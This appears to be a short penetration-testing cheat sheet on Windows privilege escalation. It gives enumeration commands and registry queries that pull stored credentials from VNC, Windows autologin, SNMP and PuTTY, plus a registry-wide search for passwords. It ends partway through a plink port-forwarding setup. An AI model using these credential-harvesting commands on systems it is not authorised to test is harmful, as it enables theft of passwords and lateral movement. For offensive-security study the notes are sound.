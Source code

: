 05._Passwords_and_Port_Forwarding_Exploitation

05. Passwords and Port Forwarding Exploitation

`whoami`
`net user`
`systeminfo`
`ipconfig`
`netstat -ano`
- Check registry First:
```
# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```
Port forwaring with plink:
- Download and transfer to target
- `apt install ssh`
- edit /etc/ssh/sshd_config to allowrootlogin yes
- `service ssh restart`